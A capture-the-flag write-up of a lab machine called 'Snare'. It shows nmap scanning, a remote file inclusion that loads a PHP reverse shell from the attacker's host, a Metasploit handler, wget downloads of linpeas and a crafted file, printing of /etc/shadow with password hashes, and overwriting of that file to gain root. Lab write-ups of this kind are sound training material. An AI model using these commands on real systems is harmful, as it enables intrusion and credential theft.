

#### Started scanning services with db_nmap 
***
[msf](Jobs:0 Agents:1) >> db_nmap 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:22 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.40s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE
[*] Nmap: 22/tcp open  ssh
[*] Nmap: 80/tcp open  http
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds

[msf](Jobs:0 Agents:1) >> db_nmap -sV -sC -p22,80 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:23 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.47s latency).
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   3072 2f:0e:73:d4:ae:73:14:7e:c5:1c:15:84:ef:45:a4:d1 (RSA)
[*] Nmap: |   256 39:0b:0b:c9:86:c9:8e:b5:2b:0c:39:c7:63:ec:e2:10 (ECDSA)
[*] Nmap: |_  256 f6:bf:c5:03:5b:df:e5:e1:f4:da:ac:1e:b2:07:88:2f (ED25519)
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: | http-title: Welcome to my homepage!
[*] Nmap: |_Requested resource was /index.php?page=home
[*] Nmap: |_http-server-header: Apache/2.4.41 (Ubuntu)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds

***
#### So I visited the home page and got an idea to test for RFI,LFI and command injection
***

***

#### To gain a foothold, I used RFI
***
┌─[elliot@parrot]─[~]
└──╼ $curl 'http://10.150.150.18/index.php?page=http://10.66.66.134:8000/exploit'

***

#### Where I modified a PHP reverseshell from pentest monkey with my lhost
#### Then started metasploit **multi/handler**

***
[msf](Jobs:0 Agents:1) >> search multi/handler

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence

Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence

[msf](Jobs:0 Agents:1) >> use 5
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LHOST 10.66.66.134
LHOST => 10.66.66.134
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.66.66.134     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:1) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.66.66.134:4444 
[*] Command shell session 7 opened (10.66.66.134:4444 -> 10.150.150.18:45170) at 2024-09-01 23:35:56 +0300

Shell Banner:
Linux snare 5.4.0-53-generic #59-Ubuntu SMP Wed Oct 21 09:38:44 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:35:42 up 40 min,  2 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                17Dec20 946days  0.06s  0.04s -bash
root     pts/0    10.66.66.38      27Nov20 1373days  0.02s  0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 --version
Python 3.8.5
$ python3 -c "import pty;pty.spawn('/bin/sh')"
$ bash
bash
www-data@snare:/$ ls
ls
bin    dev   lib    libx32	mnt   root  snap      sys  var
boot   etc   lib32  lost+found	opt   run   srv       tmp
cdrom  home  lib64  media	proc  sbin  swap.img  usr
www-data@snare:/$ cd /home	
cd /home
www-data@snare:/home$ ls
ls
snare
www-data@snare:/home$ cd snare
cd snare
www-data@snare:/home/snare$ ls
ls
FLAG1.txt

***

#### For privileged escalation, I used the linpeas.sh script
[[https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh]]
#### So I hosted the exploit using python http server
#### Then I downloaded the exploit on target machine and executed it.
#### Seems the **/etc/shadow** file is writable to everyuser
***
www-data@snare:/home/snare$ cd /tmp
cd /tmp
www-data@snare:/tmp$ wget http://10.66.66.134:8000/linpeas.sh
wget http://10.66.66.134:8000/linpeas.sh
--2024-09-01 17:39:35--  http://10.66.66.134:8000/linpeas.sh
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 823052 (804K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 803.76K  15.3KB/s    in 75s     

2024-09-01 17:40:51 (10.7 KB/s) - ‘linpeas.sh’ saved [823052/823052]

www-data@snare:/tmp$ ls -alh /etc/shadow
ls -alh /etc/shadow
-rwxrwxrwx 1 root shadow 1.2K Nov 20  2020 /etc/shadow
www-data@snare:/tmp$ cat /etc/shadow
cat /etc/shadow
root:$6$b8wkwLbICzuTqPiO$dFLYb8ZNEpfGLRnvODlyGfjtZQTV85FJCDCBGiZEU9b3laym9RJo144xkYEldB419O1Q3E5FARrKRRn/LrtZc0:18586:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18579:0:99999:7:::
systemd-coredump:!!:18579::::::
snare:$6$H64MOvr/bVP1M3TM$ITTpmiB7QNgv7EARjOcIMgeBvbCXlDOU5LqjA7q0ivXWhevk7HbatblgH7Yc1y8aUo0pnASOhJgjWRlGMsusu/:18586:0:99999:7:::
lxd:!:18579::::::

***
#### I had troubles stabilizing the shell to edit the *etc/shadow* directory. So I wrote a separate file on my machine and upload it
#### Therefore I created a fake root password and modified it to be the new password
***
┌─[elliot@parrot]─[~]
└──╼ $mkpasswd -m sha-512 elliothacks
$6$GDyAeq7lpWUI04RY$VOEmda0awSK5jM5Gl3kmWAb.pMtKu33uNuRsxO112gmOHzyTkFf53FDG5pF9rM3kwCFYN7WMEMX4W1l9/HbVd/

***
***
┌─[elliot@parrot]─[~]
└──╼ $python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.150.150.18 - - [01/Sep/2024 23:35:37] "GET /exploit.php HTTP/1.0" 200 -
10.150.150.18 - - [01/Sep/2024 23:39:35] "GET /linpeas.sh HTTP/1.1" 200 -
10.150.150.18 - - [02/Sep/2024 00:24:16] "GET /elly.txt HTTP/1.1" 200 -

***
#### Then on the target machine
 ***
www-data@snare:/tmp$ wget http://10.66.66.134:8000/elly.txt  
--2024-09-01 18:24:16--  http://10.66.66.134:8000/elly.txt
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1129 (1.1K) [text/plain]
Saving to: ‘elly.txt’

elly.txt            100%[===================>]   1.10K  --.-KB/s    in 0.02s   

2024-09-01 18:24:17 (45.0 KB/s) - ‘elly.txt’ saved [1129/1129]

www-data@snare:/tmp$ cat elly.txt>/etc/shadow
www-data@snare:/tmp$ su root
Password: elliothacks

root@snare:/tmp# cd /root
root@snare:~# ls
FLAG2.txt  snap

***

#### Finally *Snare* has been pawned
***

***